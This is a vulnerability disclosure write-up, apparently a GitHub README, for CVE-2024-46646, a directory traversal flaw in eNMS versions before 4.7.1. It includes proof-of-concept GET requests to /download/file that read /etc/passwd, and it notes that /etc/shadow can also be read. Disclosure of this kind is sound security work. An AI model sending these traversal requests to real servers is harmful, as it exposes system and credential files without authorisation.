


# **CVE-2024-46646**


# Details
* **Vulnerability Type**: eNMS < 4.7.1 Directory Traversal via /download/file
* **Affected Application**: eNMS
* **Affected Versions**: < 4.7.1
* **Affected Component**: /download/file/[DIR]/[FILE]
* **Impact**: Unauthorized access to sensitive files, potential exposure of confidential information.

# PoC
##  ```GET /download/file/>[DIR]/>[FILE]```

Another vulenrable parameter was found in the request for downloading an existing file in the folders.
Using the same method explained above, you can read any file you have access to.

**v4.4.0**
```
GET /download/file/>etc/>passwd
```
**v4.7.1**
```
GET /download/file/file_transfer/../../../../etc/passwd
```

Reading ```/etc/passwd``` file:



Reading ```/etc/shadow``` file (depending on the process execution rights)
:


# References
https://nvd.nist.gov/vuln/detail/CVE-2024-46646 <br>
https://cve.mitre.org/cgi-bin/cvename.cgi?name=2024-46646 <br>
# Credits
**Andrea Pessione** and **Manuel Scala** - SK IT Cyber Security<br></br>
<a href="https://sk-it.com/">
